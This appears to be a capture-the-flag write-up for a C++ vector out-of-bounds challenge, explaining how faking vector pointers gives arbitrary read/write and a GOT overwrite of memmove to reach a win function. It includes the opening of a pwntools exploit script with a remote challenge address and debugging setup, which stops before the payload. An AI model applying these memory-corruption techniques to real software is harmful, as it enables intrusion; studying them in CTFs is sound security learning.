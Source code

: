 Wait, we remembered Vector Overflow from Down Under CTF 2024. I also wrote a [writeup: DUCTF Vector Overflow](helloWorld.md) for this challenge.
```CPP
typename _Tp_alloc_type::pointer _M_start;
typename _Tp_alloc_type::pointer _M_finish;
typename _Tp_alloc_type::pointer _M_end_of_storage;
```
In C++, Vector types are allocated like this. The actual data is allocated in the heap area, but if we can modify elements through oob, we can create an AAR/W primitive.

With `Partial RELRO`, GOT overwrite seems possible. Since a Win function is provided, I overwrote the unresolved `memmove@got` with the win address to get a shell.

When `_M_end_of_storage` is exhausted, the vector allocates a new area twice the size of the current area and uses `memmove`. I created a fake vector structure that was sufficient to write 4 bytes to `memmove@got`.

```py
from pwn import *
import sys

e = ELF("a.out",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 55287"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    #set max-visualize-chunk-size 0x300
    b *0x000000000040138d
    b *0x0000000000401426
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

qt_sz = 100009

tmp = input("go??????????????????????????")
sl(str(100022).encode())
```